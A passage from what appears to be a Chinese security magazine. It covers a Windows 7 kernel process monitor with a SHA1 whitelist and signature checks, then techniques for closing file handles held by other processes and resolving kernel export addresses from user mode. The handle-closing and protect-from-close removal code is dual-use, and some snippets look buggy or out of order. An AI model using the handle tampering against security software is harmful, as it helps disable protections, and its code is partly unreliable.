这个比较简单，直接遍历当前系统中的活动进程列表就可以了，代码如下：

```c
BOOLEAN IsUACRunning()
{
#define ActiveProcessLinksOffset 0x0b8
    PVOID eProcess = NULL, cCurProcess = NULL;
    char *cImageName;
    cCurProcess = eProcess = PsGetCurrentProcess();
    do {
        cImageName = (char*)((ULONG)eProcess + ImageFileNameOffset);
        if (!_strnicmp(cImageName, "consent.exe", strlen(cImageName))) {
            return TRUE;
        }
        eProcess = (PVOID)(*(ULONG*)((ULONG)eProcess + ActiveProcessLinksOffset) - ActiveProcessLinksOffset);
    } while (eProcess != cCurProcess);
    return FALSE;
}
```

以上代码中，直接使用硬编码定义 ActiveProcessLinksOffset，遍历活动进程链表，查找“consent.exe”。另外，ImageFileNameOffset 值的获取是通过驱动加载时搜索当前 EPROCESS 中“System”字符串得到的：

```c
sysProc = (ULONG)PsGetCurrentProcess();
cTemp = (UCHAR*)sysProc;
for (i = 0; i < 0x200; ++i) {
    if (*cTemp == 'S') {
        if (!_strnicmp(cTemp, "System", strlen(cTemp))) {
            ImageFileNameOffset = (ULONG)cTemp - sysProc;
            KdPrintEx((xx,"[Init_HCode] ImageFileNameOffset:0x%0x\n", ImageFileNameOffset));
            break;
        }
    }
    ++cTemp;
}
```

## 4. 做进程监控，不得不考虑的一个问题就是进程间的同步

目标是串行化地监控程序的执行。同步的方法很多，比如事件、信号灯、互斥体等。本程序使用的策略是联合互斥体和事件的方法，相关代码如下：

```c
ProcessName = GetFullProcessName(NULL);
KeWaitForMutexObject(gMutex, Executive, ...);
```

```c
... KernelMode, FALSE, NULL);
RtlZeroMemory(pShareMM_SYS, 1024);
pNB = (pNotifyBlock)pShareMM_SYS;
pNB->NotifyType = ProcessMonitor;
if (ProcessName) {
    RtlCopyMemory(pNB->CurPro, ProcessName, wcslen(ProcessName)*2+2);
    RtlCopyMemory(pNB->u_ProMon_R_Pro, FilePath.Buffer, FilePath.Length);
    ExFreePool(FilePath.Buffer);
    KdPrintEx((xx,"[myNtCreateUserProcess] ..."));
    KeSetEvent(gEvent_A, 0, FALSE);
    KeWaitForSingleObject(gEvent_B, Executive, KernelMode, FALSE, NULL);
    KeClearEvent(gEvent_B);
    if (iChoose == 0) {
        KeReleaseMutex(gMutex, FALSE);
        return 0x80070000;
    }
    KeReleaseMutex(gMutex, FALSE);
}
```

在上述代码中，首先等待互斥体资源，这样就阻止了其他进程向下执行，也就实现了串行化地进程监控；然后，将获取到的进程信息复制到 Ring3 和 Ring0 的“共享内存”中去，设置事件通知应用程序，等待应用程序的判断结果；在应用程序判断完之后，释放互斥体资源。

这里的“共享内存”的信息以及“return 0x80070000”的意义将在下面两点中详细解释。

#### 5. 程序通信

这块相信大家都已经很熟悉了，无非是应用程序发控制码到驱动中，驱动响应执行。这里简单介绍一下“共享内存”是如何开辟的。先给出相关代码：

```c
pShareMM_SYS = ExAllocatePool(NonPagedPool, 2048);
if (NULL == pShareMM_SYS) {
    KdPrintEx((xx,"[Anti0_DeviceIoControl] IOCTL_GetShareMemory pShareMM_SYS is NULL!\n"));
    break;
}
RtlZeroMemory(pShareMM_SYS, 2048);
pShareMM_MDL = IoAllocateMdl(pShareMM_SYS, 2048, FALSE, FALSE, NULL);
if (NULL == pShareMM_MDL) {
    KdPrintEx((xx,"[Anti0_DeviceIoControl] ..."));
}
```

```cpp
... IOCTL_GetShareMemory ...
MmBuildMdlForNonPagedPool(pShareMM_MDL);
pShareMM_User = MmMapLockedPagesSpecifyCache(
    pShareMM_MDL,
    UserMode,
    MmCached,
    NULL,
    FALSE,
    NormalPagePriority
);
if (NULL == pShareMM_User) {
    KdPrintEx((..., "[Anti0] DeviceIoControl IOCTL_GetShareMemory pShareMM_User is NULL!"));
    break;
}
```

简单解释一下 Ring3 和 Ring0 共享内存的开辟。首先是在驱动中分配需要大小的内存，然后分配一个 MDL 来描述这块内存并将其映射到 Ring3 的地址空间中，最后将获得的 pShareMM_User 传递给应用程序即可。这样，Ring3 和 Ring0 的两个地址（pShareMM_User 和 pShareMM_SYS）都指向同一块内存了，也就是共享内存了。本质上这两个地址只是虚拟地址，值肯定不一样，但通过计算可以发现它们指向的是同一块物理内存，使用这两个虚拟地址进行内存读写实际上就是对这块物理内存进行读写。

## 6. UI 的友好性

回到另一个遗留问题，“return 0x80070000”是什么意思？很抱歉，在这里没有什么特别的意义。并不是忽悠大家，请听我详细解释一下。

做过进程监控或者类似程序的朋友一定知道，当用户选择拒绝程序执行的时候，如果不做任何处理，直接返回 STATUS_UNSUCCESSFUL 的话，桌面上会弹出一个程序执行错误的对话框，这样虽然并不影响程序功能，但作为商用程序来说，用户肯定是无法容忍的，这也就是所谓“友好地拒绝程序执行”。

回到 Windows 5.x，如果将 STATUS_UNSUCCESSFUL 换成 0x80070000，那么就会很和谐，不会弹出任何程序执行错误的对话框。这个值没有名字，是通过逆向得到的（之前由 xyzreg 提供给本人），可以保证在 Windows 5.x 下是有效果的。到了 Windows 7 中，这个值不再有效，已经被微软的相关代码过滤掉了；如果仍然返回这个值（return 0x80070000），微软将会把它替换成另一个值。在经过相关逆向研究后，由于能力有限，暂未找到替代的值。如果哪位朋友已经找到了解决方法，请告知在下，不甚感激。

#### 7. 程序模块

- 1. 线程

相关代码如下：

```csharp
private static void threadProMonProc() {
    Boolean bRet = false;
    Int32 iRet = 0;
    int eventProMonA = OpenEvent(0x1F0003, false, "Global\\EventProMon");
    if (0 == eventProMonA) return;
    while (true) {
        WaitForSingleObject(eventProMonA, 0xffffffff);
        ResetEvent(eventProMonA);
        ...
    }
}
```

```csharp
do {
    if (false == startChoose) {
        bRet = fnStartChoose();
        if (false == bRet) {
            fnHandleProMonChoose(true, false);
            break;
        }
        startChoose = true;
    }
    bRet = fnSigVerf();
    if (true == bRet) {
        fnHandleProMonChoose(true, false);
        break;
    }
    iRet = fnGetProcessInRulesState();
    if (iRet == 0) {
        fnHandleProMonChoose(false, false);
    } else if (iRet == 1) {
        fnHandleProMonChoose(true, false);
    } else {
        Thread threadProcMonShow = new Thread(new ThreadStart(threadProMonShowProc));
        threadProcMonShow.SetApartmentState(ApartmentState.STA);
        threadProcMonShow.Start();
    }
} while (false);
```

以上代码是使用 C# 编写的（不是很熟练，写得比较难看），首先打开事件并等待，当有进程创建的时候，驱动程序将会设置这个事件。下面就是逻辑判断了，fnStartChoose 主要是用来阻止当本应用程序在启动过程中出现其他进程启动且需要用户判断的情况，因为这个时候本应用程序的图形初始化还没有完成。这个函数只是检测进程列表中是否有 PRESENTATIONFONTCACHE 这个进程，如果有，那么判断本程序图形初始化完成。另外，这个函数由一个 dll 提供，因为 C# 中直接调用 API 十分麻烦，可以在一个 dll 中实现好所有功能并提供接口给主程序使用。

fnSigVerf 这个函数主要用来判断启动的进程是否拥有微软的签名，如果有则放过，起到智能判断的功能，具体将在（2）中解释。

fnGetProcessInRulesState 这个函数用来查找正在启动的进程的状态，使用 sha1 计算其哈希值，查找其是在白名单中还是在黑名单中，或者不在名单中。相关代码如下：

```cpp
extern "C" {
// return value:
// 0-reject
// 1-accept
// 2-ask for users
ANTIZ_API int fnGetProcessInRulesState() {
    int iRet = 0;
    HANDLE hFileSys;
    BOOL bRet = FALSE;
    PVOID pShareMem = NULL;
    DWORD dwRet = 0;
    pNotifyBlock p = NULL;
    WCHAR wProcessName[MAX_PATH] = {0};
    ...
}
}
```

```cpp
hFileSys = CreateFileW(
    L"\\.\\AntiZero",
    GENERIC_READ|GENERIC_WRITE,
    FILE_SHARE_READ|FILE_SHARE_WRITE,
    NULL,
    OPEN_EXISTING,
    FILE_ATTRIBUTE_NORMAL,
    NULL
);
if (INVALID_HANDLE_VALUE == hFileSys) {
    DbgPrintA(("[fnGetProcessInRulesState] CreateFile Failure!"));
    iRet = 2;
    break;
}

bRet = DeviceIoControl(
    hFileSys,
    IOCTL_GetShareMemPointer,
    NULL,
    0,
    (PVOID)&pShareMem,
    4,
    &dwRet,
    NULL
);
if (bRet) {
    DbgPrintA(("[fnGetProcessInRulesState] IOCTL_GetShareMemPointer Failure!\n"));
    CloseHandle(hFileSys);
    iRet = 2;
    break;
}

CloseHandle(hFileSys);
p = (pNotifyBlock)pShareMem;
if (NULL == p) {
    DbgPrintA(("[fnGetProcessInRulesState] p is NULL!\n"));
    iRet = 2;
    break;
}

WCHAR *pTemp = NULL;
pTemp = wcsrchr(p->u.ProMon.R_Pro, '\\');
if (NULL == pTemp) {
    pTemp = p->u.ProMon.R_Pro;
} else {
    ++pTemp;
}
wcscpy(wProcessName, pTemp);

LONG lRet = 0;
HKEY hKey;
WCHAR wSubKey[MAX_PATH] = {0};
char SHA1[20] = {0}, OrgSha1[20] = {0};
DWORD dwOper = 0;
DWORD dwType, cbData;

wsprintf(wSubKey, L"SOFTWARE\\AntiZero\\ProMon\\%ws", wProcessName);
lRet = RegOpenKeyExW(
    HKEY_LOCAL_MACHINE,
    wSubKey,
    0,
    KEY_ALL_ACCESS,
    &hKey
);
if (ERROR_SUCCESS != lRet) {
    DbgPrintA(("[fnGetProcessInRulesState] RegOpenKeyExW Failure!\n"));
    iRet = 2;
    break;
}

GetSHA1(p->u.ProMon.R_Pro, SHA1);
cbData = 20;
lRet = RegQueryValueEx(...);
```

```cpp
hKey,
L"sha1",
NULL,
&dwType,
...
```

在上述代码中，首先打开驱动，得到共享内存地址，然后计算当前启动进程二进制文件的哈希值（这里的 sha1 算法的相关代码由 miracl 大虾库提供），通过在注册表中匹配来获得其状态值。0 代表在黑名单中，1 代表在白名单中，2 则代表需要询问用户。询问用户的代码这里就不给出了，没有什么难点。

在上述代码中，多处出现了 DbgPrintA 这个函数，需与 Ring0 中的 DbgPrint 区分开，这个函数是笔者本人在 Ring3 中实现的打印输出函数，因为 OutputDebugString 不支持格式化串输出，用起来不方便，这个函数的具体解释将在（4）中给出。

##### （2）签名验证

在（1）中提到的 fnSigVerif 这个函数，是后来判断一个进程所对应的二进制文件是否有微软的签名，如果有则直接放掉，不需要交由用户判断了，达到了 一定的智能效果。相关代码如下：

```cpp
extern "C"
ANTIZ_API BOOL fnSigVerif()
{
    HANDLE hFile;
    BOOL bRet = FALSE;
    HCATADMIN hCatAdmin;
    DWORD cbHash = 0;
    PVOID pbHash = NULL;
    PVOID pPolicyCallbackData = NULL;
    WCHAR pwszSourceFile[MAX_PATH] = {0};
    pNotifyBlock p = NULL;
    HANDLE hFileSys;
    PVOID pShareMem = NULL;
    DWORD dwRet = 0;

    do {
        hFileSys = CreateFileW(
            L"\\.\\AntiZero",
            GENERIC_READ|GENERIC_WRITE,
            FILE_SHARE_READ|FILE_SHARE_WRITE,
            NULL,
            OPEN_EXISTING,
            FILE_ATTRIBUTE_NORMAL,
            NULL
        );
        if (INVALID_HANDLE_VALUE == hFileSys) {
            DbgPrintA(("[fnSigVerif] CreateFile Failure!"));
            bRet = FALSE;
            break;
        }

        bRet = DeviceIoControl(
            hFileSys,
            IOCTL_GetShareMemPointer,
            NULL,
            0,
            (PVOID)&pShareMem,
            4,
            &dwRet,
            NULL
        );
        if (bRet) {
            DbgPrintA(("[fnSigVerif] DeviceIoControl-IOCTL_GetShareMemPointer Failure!\n"));
            CloseHandle(hFileSys);
            bRet = FALSE;
            break;
        }

        CloseHandle(hFileSys);
        p = (pNotifyBlock)pShareMem;
        if (NULL == p) {
            ...
        }
    } while (0);
}
```

```cpp
DbgPrintA(("[fnSigVerif] p is NULL\n"));
bRet = FALSE;
break;

wcscpy(pwszSourceFile, p->u.ProMon.R_Pro);
hFile = CreateFileW(
    pwszSourceFile,
    GENERIC_READ,
    FILE_SHARE_READ | FILE_SHARE_WRITE,
    NULL,
    OPEN_ALWAYS,
    FILE_ATTRIBUTE_NORMAL,
    NULL
);
if (INVALID_HANDLE_VALUE == hFile) {
    DbgPrintA(("[fnSigVerif] CreateFileW(%ws) Failure.err<%d>\n", pwszSourceFile, GetLastError()));
    bRet = FALSE;
    break;
}

cbHash = 0x64;
pbHash = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x64);
if (NULL == pbHash) {
    DbgPrintA(("[fnSigVerif] HeapAlloc Failure\n"));
    CloseHandle(hFile);
    bRet = FALSE;
    break;
}

bRet = CryptCATAdminCalcHashFromFileHandle(
    hFile,
    &cbHash,
    (BYTE*)pbHash,
    0
);
if (FALSE == bRet) {
    DbgPrintA(("[fnSigVerif] CryptCATAdminCalcHashFromFileHandle Failure\n"));
    CloseHandle(hFile);
    bRet = FALSE;
    break;
}

CloseHandle(hFile);
bRet = CryptCATAdminAcquireContext(&hCatAdmin, NULL, 0);
if (FALSE == bRet) {
    DbgPrintA(("[fnSigVerif] CryptCATAdminAcquireContext Failure\n"));
    bRet = FALSE;
    break;
}

HCATINFO hPreCatInfo = NULL;
hCatInfo = CryptCATAdminEnumCatalogFromHash(
    hCatAdmin,
    (BYTE*)pbHash,
    cbHash,
    0,
    &hPreCatInfo
);
if (NULL == hCatInfo) {
    DbgPrintA(("[fnSigVerif] CryptCATAdminEnumCatalogFromHash Failure\n"));
    CryptCATAdminReleaseContext(hCatAdmin, 0);
    bRet = FALSE;
    break;
}

CATALOG_INFO psCatInfo;
psCatInfo.cbStruct = sizeof(CATALOG_INFO);
bRet = CryptCATCatalogInfoFromContext(hCatInfo, &psCatInfo, 0);

if (FALSE == bRet) {
    DbgPrintA(("[fnSigVerif] CryptCATCatalogInfoFromContext Failure\n"));
    CryptCATAdminReleaseContext(hCatAdmin, 0);
    bRet = FALSE;
    break;
}

CryptCATAdminReleaseContext(hCatAdmin, 0);
GUID ActionID = DRIVER_ACTION_VERIFY;
WINTRUST_DATA WVTData = {0};
pPolicyCallbackData = HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, 0x440);
if (NULL == pPolicyCallbackData) {
    DbgPrintA(("[fnSigVerif] pPolicyCallbackData is NULL\n"));
    bRet = FALSE;
    break;
}

*(ULONG*)pPolicyCallbackData = 0x440;
WINTRUST_CATALOG_INFO CatLog = {0};
WCHAR pcwszMemberTag[MAX_PATH] = {0};
WCHAR* p1 = (WCHAR*)wcsrchr(pwszSourceFile, '\\');
if (NULL == p1) {
    DbgPrintA(("[fnSigVerif] wcsrchr(%ws,\\) Failure!\n", pwszSourceFile));
    p1 = (WCHAR*)pwszSourceFile;
} else {
    ++p1;
}
wcscpy(pcwszMemberTag, p1);

CatLog.cbStruct = 0x24;
CatLog.dwCatalogVersion = 0;
CatLog.pcwszCatalogFilePath = psCatInfo.wszCatalogFile;
CatLog.pcwszMemberTag = pcwszMemberTag;
CatLog.pcwszMemberFilePath = NULL;
CatLog.hMemberFile = NULL;

WVTData.cbStruct = sizeof(WINTRUST_DATA);
WVTData.dwUIChoice = WTD_UI_NONE;
WVTData.fdwRevocationChecks = 0;
WVTData.dwUnionChoice = WTD_CHOICE_CATALOG;
WVTData.pCatalog = &CatLog;
WVTData.dwStateAction = WTD_STATEACTION_AUTO_CACHE;
WVTData.hWVTStateData = 0;
WVTData.pwszURLReference = NULL;
WVTData.dwProvFlags = 0;
WVTData.dwUIContext = 0;

LONG lRet = WinVerifyTrust(NULL, &ActionID, &WVTData);
if (ERROR_SUCCESS == lRet) {
    DbgPrintW((L"[fnSigVerif] WinVerifyTrust(%ws) OK!\n", pwszSourceFile));
    bRet = TRUE;
    break;
} else {
    DbgPrintA(("[fnSigVerif] WinVerifyTrust(%ws) Failure!\n", pwszSourceFile));
    bRet = FALSE;
    break;
}
```

```c
}
while (FALSE);
if (NULL != pbHash)
{
    HeapFree(GetProcessHeap(), 0, pbHash);
}
if (NULL != pPolicyCallbackData)
{
    HeapFree(GetProcessHeap(), 0, pPolicyCallbackData);
}
return bRet;
}
```

```c
pFile = MapViewOfFile(
    hFileMap,
    FILE_MAP_READ,
    0,
    0,
    0
);
if (!pFile)
{
    DbgPrintA(("GetSHA1! MapViewOfFile Failure!\n"));
    CloseHandle(hFile);
    return FALSE;
}
shs_init(&sh);
for (i = 0; i < dwFileSize; i++)
{
    c = *((char*)((char*)pFile + i));
    shs_process(&sh, c);
}
shs_hash(&sh, SHA1);
UnmapViewOfFile(pFile);
CloseHandle(hFileMap);
CloseHandle(hFile);
return TRUE;
}
```

关于判断一个 PE 文件是否拥有微软签名的方法，网上也有很多代码，大体思路也差不多，都是使用 WinVerifyTrust 这个 API 判断，但是发现多数代码或者误报或者漏报。而本程序这里的代码是我直接从 XP SP3 中的 sigverif.exe 直接复制过来的，很好用，至今未发现误报漏报。

结合 MSDN 学习一下这段代码：首先打开驱动，获取共享内存，得到启动进程的信息；然后打开启动进程的二进制文件，调用 CryptCATAdminCalcHashFromFileHandle 这个函数计算该二进制文件的哈希值；接着调用 CryptCATAdminAcquireContext 得到一个句柄，这个句柄在随后的函数调用中用到；随后调用 CryptCATAdminEnumCatalogFromHash 枚举包含指定哈希值（即前面计算得到的）的目录，成功找到后，再调用 CryptCATCatalogInfoFromContext 函数得到相关目录的信息，最后将得到的相关信息填入 WINTRUST_DATA 这个结构体中，调用 WinVerifyTrust 验证 PE 文件是否有签名。

- （3）为了预防白名单攻击，本程序提供了一个名单保护。即在匹配启动程序对应的二进制文件时，计算其哈希值，再进行比较，并不是简单的进程名比较。获取哈希值的相关代码如下：

```c
BOOL GetSHA1(WCHAR *wPath, char *SHA1)
{
    sha1_ctx sh;
    HANDLE hFile, hFileMap;
    DWORD dwFileSize, i;
    PVOID pFile;
    char c;

    hFile = CreateFileW(
        wPath,
        GENERIC_READ,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
        NULL,
        OPEN_EXISTING,
        FILE_ATTRIBUTE_NORMAL,
        NULL
    );
    if (INVALID_HANDLE_VALUE == hFile)
    {
        DbgPrintW(("GetSHA1! CreateFile(%ws) Failure,err:%d\n", wPath, GetLastError()));
        return FALSE;
    }

    dwFileSize = GetFileSize(hFile, NULL);
    hFileMap = CreateFileMappingW(
        hFile,
        NULL,
        PAGE_READONLY,
        0,
        0,
        NULL
    );
    if (INVALID_HANDLE_VALUE == hFileMap)
    {
        DbgPrintA(("GetSHA1! CreateFileMappingW Failure!\n"));
        CloseHandle(hFile);
        return FALSE;
    }
```

其中，shs_init、shs_process、shs_hash 这些函数均由 miracle 大数据库提供。

##### （4）调试

在（1）中提到了 DbgPrintA 这个函数。首先要与 Ring0 中的 DbgPrint 区分开，这个函数是我个人使用的日志打印函数，用来弥补 OutputDebugString 不能格式化串的不足。显而易见，它还有另一个版本 DbgPrintW。这两个函数其实是封装了 OutputDebugStringA/OutputDebugStringW。

相关代码如下：

```c
#ifdef Debug
VOID DebugPrintA(
    CHAR *Format,
    ...
);
VOID DebugPrintW(
    WCHAR *Format,
    ...
);
#define DbgPrintA(args) DebugPrintA args
#define DbgPrintW(args) DebugPrintW args
#else
#define DbgPrintA(args)
#define DbgPrintW(args)
#endif

VOID DebugPrintA(
    CHAR *Format,
    ...
)
{
    va_list args;
    CHAR Msg[MAX_PATH] = {0};
    va_start(args, Format);
    vsprintf(Msg, Format, args);
    va_end(args);
    OutputDebugStringA(Msg);
}

VOID DebugPrintW(
    WCHAR *Format,
    ...
)
{
    va_list args;
    WCHAR Msg[MAX_PATH] = {0};
    va_start(args, Format);
    vswprintf(Msg, Format, args);
    va_end(args);
    OutputDebugStringW(Msg);
}
```

DbgPrintA/DbgPrintW 其实是两个宏。使用的时候只需要在头文件中添加一句：`#define Debug` 即可，之后就可以在应用程序中使用这两个函数了，而在使用 Release 编译时，只需要注释掉 `#define Debug` 重新编译即可。

## 使用 NtMapViewOfSection 实现超远程回调监控

这里是笔者曾经的一个“研究”经历，算是给有兴趣的朋友们一份参考。相信部分人也有这样的想法：直接解析 NtMapViewOfSection 这个函数的第一个参数 SectionHandle，即可获得这个 section 对应的 PE 文件路径。如果是进程创建，第一个模块总会是 .exe，所以当模块路径包含 .exe 时即可按照判断逻辑进行拦截。笔者虽然没有实现过，也先不论这个想法的正确与否，但是，到了 Windows 7 中，在解析模块 PE 文件路径的时候，按照原先的方法，会发现获取到的 fileobj 是非法的（可以使用 windbg 验证，`!fileobj xxxx`），这样访问其路径就出错了，直接导致蓝屏。

实际上，Windows 7 对这个 fileobj 进行了一些变换，通过逆向 MiCompleteProtoPteFault 这个函数，可以发现如图 1 所示的一些代码片段，也就是变换的地方了。


至于微软为什么要这么做，如果你有兴趣可以研究一下。回归到这个问题上，如何解除蓝屏呢？或者如何将非法的 fileobj 还原呢？其实两句代码就够了：

```
pFakeFileObj := pSecObj->Segment->ControlArea->FilePointer;
pFileObj := (PFILE_OBJECT)((ULONG)pFakeFileObj & (~7));
```

执行完这句代码后，再进行路径解析就没有问题了。以上的小技巧是笔者在另外一个小程序中遇到了上述的蓝屏问题后逆向得到的，这里希望给有相关想法的朋友一些帮助。

## 总结

本文从一个工程的角度，真正详解了 Windows 7 下的进程监控。由于个人能力有限，肯定有些纰漏，还望指正。还有一些其他的小功能小模块，有兴趣的朋友可以自己实现，比如增加一个自我保护模块，安全软件首先得保护自己的安全。另外，由于时间精力有限，程序肯定存在一些 bug，这里就不谈白盒黑盒灰盒测试了，总之，带着批判的眼光学习或审查本程序，尽信书不如无书嘛。

Windows 7 下的进程监控，在细节上与之前 5.x 系统下有很多不一样的地方，笔者在完整做完这个模块功能后，觉得最需要注意的地方就是 Hook 函数的选择，还有 UAC 机制的影响。很多问题是逆向后解决的，当然，也有尚未解决的问题，比如前面提到 0x80070000 的替代值问题，还望已经解决的朋友不吝赐教！（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：VB、Inline、Hook

# 详解恢复 Inline Hook 疑点

文 / 广东工业大学 胡文亮

自从本人在 2010 年第 7 期的杂志上发表了拙文《详解恢复 Inline Hook》后，有不少读者向我提出了自己的疑问。我就提出得最多的两个疑问再写一篇文章。

问：内核文件被锁定而无法被加载到内存中怎么办？

答：所谓锁定文件就是以独占方式打开文件而且不关闭，让别的进程无法打开再使用此文件。若想读取被锁定的文件，比较底层的办法是自己发送 IRP 实现 ReadFile，但过于稳定性的原因，我不建议大家这么做（网上有相关代码，感兴趣的读者可以自行搜索）。我的方案是：解锁内核文件。

解锁文件的原理很简单，其实就是关闭某文件在别的进程中被打开的句柄。实现方法是遍历某进程中所有的句柄并对比，如果发现是待解锁文件的句柄，就使用 NtDuplicateObject 的 `DUPLICATE_CLOSE_SOURCE` 来关闭它（使用此参数调用 NtDuplicateObject 时，系统会把句柄从目标进程复制到本进程，并把目标进程中的句柄关闭）。我们解锁文件时，再把复制到本进程中的句柄关闭掉，那么这个文件的句柄就被彻底关闭了。还有一种实现方法是在目标进程中建立远程线程，利用远程线程在目标进程中执行 CloseHandle 来关闭目标进程中待解锁文件的句柄。实现的核心代码如下（代码的原创作者是陈辉，我在使用此代码时稍作了修改，特此声明）：

```vb
Public Function CloseLockFileHandle(ByVal strFileName As String, ByVal dwProcessId As Long) As Boolean
    Dim ntStatus As Long
    Dim objCid As CLIENT_ID
    ...
```


```vb
Dim objOa As OBJECT_ATTRIBUTES
Dim lngHandles As Long
Dim i As Long
Dim objInfo As SYSTEM_HANDLE_INFORMATION
Dim lngType As Long
Dim hProcess As Long, hProcessToDup As Long, hFileHandle As Long
Dim hFile As Long
Dim bytBytes() As Byte, strSubPath As String, strTmp As String
Dim blnIsOk As Boolean
...
strSubPath = Mid(strFileName, 3, Len(strFileName) - 2)
hFile = CreateFile("NUL", &H80000000, 0, ByVal 0&, 3, 0, 0)
If hFile = -1 Then
    CloseLockFileHandle = False
    Exit Function
End If
...
ntStatus = NtQuerySystemInformation(SystemHandleInformation, VarPtr(BytBuf(0)), nSize, 0&)
If (Not NT_SUCCESS(ntStatus)) Then
    If (ntStatus <> STATUS_INFO_LENGTH_MISMATCH) Then
        Erase BytBuf
        Exit Function
    End If
Else
    Exit Do
End If
...
For i = 0 To lngHandles - 1
    If objInfo.aSH(i).HandleValue = hFile And objInfo.aSH(i).UniqueProcessId = GetCurrentProcessId Then
        lngType = objInfo.aSH(i).ObjectTypeIndex
        Exit For
    End If
Next
...
For i = 0 To lngHandles - 1
    If objInfo.aSH(i).ObjectTypeIndex = lngType And objInfo.aSH(i).UniqueProcessId = dwProcessId Then
        ntStatus = NtOpenProcess(hProcessToDup, PROCESS_DUP_HANDLE, objOa, objCid)
        If hProcessToDup <> 0 Then
            ntStatus = NtDuplicateObject(hProcessToDup, objInfo.aSH(i).HandleValue, GetCurrentProcess, hFileHandle, 0, 0, DUPLICATE_SAME_ATTRIBUTES)
            If (NT_SUCCESS(ntStatus)) Then
                ntStatus = MyGetFileType(hFileHandle)
                If ntStatus Then
                    strTmp = GetFileFullPath(hFileHandle)
                End If
                NtClose hFileHandle
                If InStr(LCase(strTmp), LCase(strFileName)) Then
                    If Not CloseRemoteHandle(dwProcessId, objInfo.aSH(i).HandleValue, strFileName) Then
                        blnIsOk = False
                    End If
                End If
            End If
        End If
    End If
Next
CloseLockFileHandle = blnIsOk
End Function

Public Function CloseRemoteHandle(ByVal dwProcessId, ByVal hHandle As Long, Optional ByVal stLockFile As String = "") As Boolean
    Dim hMyProcess As Long, hRemProcess As Long, blnResult As Long, hMyHandle As Long
    Dim objCid As CLIENT_ID
    Dim objOa As OBJECT_ATTRIBUTES
    Dim ntStatus As Long, strProcessName As String, hProcess As Long, strMsg As String

    objCid.UniqueProcess = dwProcessId
    objOa.Length = Len(objOa)
    hMyProcess = GetCurrentProcess()
    ntStatus = NtOpenProcess(hRemProcess, PROCESS_DUP_HANDLE, objOa, objCid)
    If hRemProcess Then
        ntStatus = NtDuplicateObject(hRemProcess, hHandle, GetCurrentProcess, hMyHandle, 0, 0, DUPLICATE_CLOSE_SOURCE Or DUPLICATE_SAME_ACCESS)
        If (NT_SUCCESS(ntStatus)) Then
            blnResult = NtClose(hMyHandle)
            If blnResult >= 0 Then
                strProcessName = GetProcessCommandLine(dwProcessId)
            End If
        End If
        Call NtClose(hRemProcess)
    End If
    CloseRemoteHandle = blnResult >= 0
End Function
```

首先枚举当前系统中所有进程的 PID，然后对每个 PID 都调用一次 CloseLockFileHandle 即可（关闭所有进程中内核文件的句柄）。不过这种方法不能对付设置了“禁止关闭”属性的句柄（调用带 HANDLE_FLAG_PROTECT_FROM_CLOSE 参数的 SetHandleInformation 函数，微软的官方文档这么描述：“If this flag is set, calling the CloseHandle function will not close the object handle.”）。对付这种情况可就有点麻烦了。解决办法是杀死含有带此句柄的进程，或者在驱动里调用 ObSetHandleAttributes 解决问题。

```c
typedef struct _OBJECT_HANDLE_FLAG_INFORMATION
{
    BOOLEAN Inherit;
    BOOLEAN ProtectFromClose;
} OBJECT_HANDLE_FLAG_INFORMATION,
*POBJECT_HANDLE_FLAG_INFORMATION;

POBJECT_HANDLE_FLAG_INFORMATION pObjectHandleFlagInformation;
pObjectHandleFlagInformation->Inherit = 0;
pObjectHandleFlagInformation->ProtectFromClose = 0;
ObSetHandleAttributes(要关闭的句柄, pObjectHandleFlagInformation, KernelMode);
ZwClose(要关闭的句柄);
```

## 问：怎么恢复指定内核函数的 Inline Hook？

答：对于导出的函数，可以直接使用 LoadLibraryExA + GetProcAddress 获得函数地址；对于没有导出的函数，可以先搜索特征码得到函数的地址。

在驱动程序里获得 ntosxxxx.exe 中某个导出函数的地址很简单，直接使用 MmGetSystemRoutineAddress 即可。但是在用户态则稍显困难，首先要获得内核文件名（不能用硬编码，因为内核文件有五个：ntkrnlpa.exe、ntkrnlmp.exe、ntkrpamp.exe、ntoskrnl.exe，系统会根据 CPU 的不同使用其中一个。比如 CPU 是单核心的，就使用 ntoskrnl.exe；CPU 是多核心的，就使用 ntkrnlpa.exe），然后用 LoadLibraryEx 装载当前使用的内核文件（不能用 LoadLibrary），最后用 GetProcAddress 获得导出函数的地址。核心代码如下（感谢资料提供者 xacker）。

```vb
Private Function UAdd(ByVal a As Long, ByVal b As Long) As Long
    UAdd = ((a And MaxInt32) + (b And MaxInt32) Or MinInt32) Xor (a And MinInt32) Xor (b And MinInt32) Xor MinInt32
End Function

Private Function USub(ByVal a As Long, ByVal b As Long) As Long
    USub = ((a And MaxInt32) - (b And MaxInt32)) Xor (a And MinInt32) Xor (b And MinInt32)
End Function

Private Sub GetSystemModuleInformation()
    Dim Length As Long, Buff() As Long
    If HasModuleInfo = True Then
        Exit Sub
    Else
        ZwQuerySystemInformation SystemModuleInformation, 0, 0, VarPtr(Length)
        ReDim Buff((Length \ 4) - 1)
        ZwQuerySystemInformation SystemModuleInformation, VarPtr(Buff(0)), Length, 0
        MODULEINFO = Buff
        HasModuleInfo = True
    End If
End Sub

Private Function GetKernelBaseAddress() As Long
    GetSystemModuleInformation
    GetKernelBaseAddress = MODULEINFO(3)
End Function

Public Function GetSystemRoutineAddress(ByVal RoutineName As String) As Long
    Dim KernelBase As Long, KernelName As Long
    Dim KernelShadow As Long, RVA As Long
    GetSystemModuleInformation
    KernelBase = MODULEINFO(3)
    KernelName = VarPtr(MODULEINFO(8)) + MODULEINFO(7) * &H10000
    KernelShadow = LoadLibraryExA(KernelName, 0, DONT_RESOLVE_DLL_REFERENCES)
    RVA = GetProcAddress(KernelShadow, RoutineName)
    FreeLibrary KernelShadow
    If RVA > 0 Then GetSystemRoutineAddress = UAdd(USub(RVA, KernelShadow), KernelBase)
End Function

' 获取 KeInsertQueueApc 的地址
Print Hex$(GetSystemRoutineAddress("KeInsertQueueApc"))
```

